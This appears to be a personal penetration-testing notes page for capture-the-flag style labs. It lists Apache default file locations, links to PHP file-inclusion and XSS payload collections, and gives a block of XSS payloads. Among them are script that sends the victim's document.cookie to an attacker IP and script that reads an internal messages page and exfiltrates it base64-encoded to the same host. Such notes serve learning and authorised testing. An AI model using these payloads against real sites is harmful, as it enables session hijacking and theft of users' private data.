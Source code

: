 # Apache & Languages

## Apache

Find out which OS it's running on first from nmap scan

```
Root: /var/www
for multiple vhosts root is /var/www/[site1] and goes on
Vhost config: /etc/apache2/sites-enabled/000-default.conf
.htaccess and .htpasswd are at root of server
```

{% embed url="https://cwiki.apache.org/confluence/display/httpd/DistrosDefaultLayout#DistrosDefaultLayout-Apachehttpd2.4defaultlayout(apache.orgsourcepackage):" %}

## PHP

{% embed url="https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/File%20Inclusion/LFI-to-RCE.md" %}

{% embed url="https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/File%20Inclusion/Wrappers.md" %}

{% embed url="https://sushant747.gitbooks.io/total-oscp-guide/content/local_file_inclusion.html" %}

If there is an input field where it fetches a file, you can view the source of php file itself or the apache log for LFI2RCE

PHP deserialization

## Java

### XSS

File transfer and reverse shell

```
### local XSS
<img src=x onerror=alert(1) />

### load image
<img src="http://10.10.14.6/image.png" />

### load script
<script src="http://10.10.14.6/script.js"></script>

fetch('http://10.10.14.6/from_script/' + document.cookie);

### load script
<script>
fetch('http://alert.htb/messages.php')
.then(resp => resp.text())
.then(body => {
    fetch("http://10.10.14.6/exfil?body=" + btoa(body));
})
</script>
```

{% embed url="https://portswigger.net/web-security/cross-site-scripting/cheat-sheet" %}

{% embed url="https://cheatsheetseries.owasp.org/cheatsheets/XSS_Filter_Evasion_Cheat_Sheet.html" %}

{% embed url="https://brandonrussell.io/OSCP-Notes/XXMore.html" %}

### XXE
